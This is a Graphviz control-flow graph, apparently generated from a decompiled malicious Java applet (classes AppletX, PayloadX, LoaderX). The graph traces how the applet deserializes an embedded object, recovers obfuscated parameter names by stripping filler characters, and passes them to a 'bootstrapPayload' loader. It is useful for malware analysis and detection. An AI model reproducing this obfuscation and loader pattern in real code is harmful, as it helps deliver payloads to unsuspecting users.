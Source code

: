 digraph "" {
    "r0 := @this: myf.y.AppletX"
    "new java.io.ObjectInputStream"
    "r0 := @this: myf.y.AppletX"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "staticget <myf.y.AppletX: java.lang.String serializedObject>"
    "dup1.r"->"staticget <myf.y.AppletX: java.lang.String serializedObject>";
    "staticinvoke <myf.y.PayloadX: byte[] StringToBytes(java.lang.String)>"
    "staticget <myf.y.AppletX: java.lang.String serializedObject>"->"staticinvoke <myf.y.PayloadX: byte[] StringToBytes(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <myf.y.PayloadX: byte[] StringToBytes(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "load.r r0"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"load.r r0";
    "push \"HHHcHHHHHcHHH\""
    "load.r r0"->"push \"HHHcHHHHHcHHH\"";
    "push \"H\""
    "push \"HHHcHHHHHcHHH\""->"push \"H\"";
    "push \"\""
    "push \"H\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <myf.y.AppletX: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <myf.y.AppletX: java.lang.String getParameter(java.lang.String)>";
    "store.r r6"
    "virtualinvoke <myf.y.AppletX: java.lang.String getParameter(java.lang.String)>"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"TTdTTTTaTTTTTtTTTTTTaTTT\""
    "load.r r0"->"push \"TTdTTTTaTTTTTtTTTTTTaTTT\"";
    "push \"T\""
    "push \"TTdTTTTaTTTTTtTTTTTTaTTT\""->"push \"T\"";
    "push \"T\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <myf.y.AppletX: java.lang.String getParameter(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <myf.y.AppletX: java.lang.String getParameter(java.lang.String)>"->"store.r r0";
    "ifnull goto return"
    "store.r r0"->"ifnull goto return";
    "staticget <myf.y.LoaderX: myf.y.LoaderX instance>"
    "ifnull goto return"->"staticget <myf.y.LoaderX: myf.y.LoaderX instance>";
    "staticget <myf.y.LoaderX: myf.y.LoaderX instance>"->"ifnull goto return";
    "ifnull goto return"->"load.r r0";
    "ifnonnull staticget <myf.y.LoaderX: myf.y.LoaderX instance>"
    "load.r r0"->"ifnonnull staticget <myf.y.LoaderX: myf.y.LoaderX instance>";
    "ifnonnull staticget <myf.y.LoaderX: myf.y.LoaderX instance>"->"push \"\"";
    "push \"\""->"store.r r0";
    "store.r r0"->"staticget <myf.y.LoaderX: myf.y.LoaderX instance>";
    "staticget <myf.y.LoaderX: myf.y.LoaderX instance>"->"load.r r0";
    "load.r r6"
    "load.r r0"->"load.r r6";
    "virtualinvoke <myf.y.LoaderX: void bootstrapPayload(java.lang.String,java.lang.String)>"
    "load.r r6"->"virtualinvoke <myf.y.LoaderX: void bootstrapPayload(java.lang.String,java.lang.String)>";
    "goto return"
    "virtualinvoke <myf.y.LoaderX: void bootstrapPayload(java.lang.String,java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <myf.y.LoaderX: void bootstrapPayload(java.lang.String,java.lang.String)>"->"store.r r0";
}
